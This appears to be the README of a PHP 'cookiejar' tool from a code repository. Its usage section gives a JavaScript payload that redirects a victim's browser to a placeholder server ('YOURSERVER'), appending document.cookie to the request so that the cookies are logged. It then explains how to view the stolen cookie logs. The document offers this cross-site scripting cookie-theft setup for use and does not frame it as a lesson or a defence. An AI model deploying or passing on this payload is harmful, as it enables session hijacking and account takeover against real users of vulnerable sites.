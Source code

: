 # cookiejar

## Usage
`document.location='http://YOURSERVER/php-cookiejar/log.php?c=' + document.cookie;`

## Viewing Logs
Visit `http://YOURSERVER/php-cookiejar/view.php?logs` to see the Logs
Going to `view.php` without the trailing `?logs` will show something different.
Changing the variable to something different in `view.php`, line 2 would be recommended.

## To Do
Maybe allow different layouts for logs
